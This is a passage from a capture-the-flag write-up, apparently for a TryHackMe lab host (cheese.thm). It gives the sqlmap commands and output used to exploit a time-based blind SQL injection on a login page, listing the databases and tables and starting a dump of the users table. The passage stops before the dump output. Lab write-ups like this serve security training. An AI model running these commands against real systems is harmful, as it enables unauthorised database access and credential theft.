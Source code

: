 > Detected **time-based blind** SQL vulnerability. And also i see that the server use MySQL database.

> Get list of databases:

```bash

sudo sqlmap -u "http://cheese.thm/login.php" --data="username=admin&password=admin" --batch --dbs

```

> Result:

```bash

[16:31:20] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 19.10 or 20.04 or 20.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)

[16:32:45] [INFO] retrieved: users
available databases [2]:
[*] information_schema
[*] users


```

> there a two databases but i'm interested the **users**
> Get list of **users tables**:

```bash

 sudo sqlmap -u "http://cheese.thm/login.php" --data="username=admin&password=admin" --batch -D users --tables

```
> Result:

```bash

[16:38:15] [INFO] adjusting time delay to 1 second due to good response times
users
Database: users
[1 table]
+-------+
| users |
+-------+

```

> Display the contents of the **users** table:

```bash

 sudo sqlmap -u "http://cheese.thm/login.php" --data="username=admin&password=admin" --batch -D users -T users --dump


```
> Result:
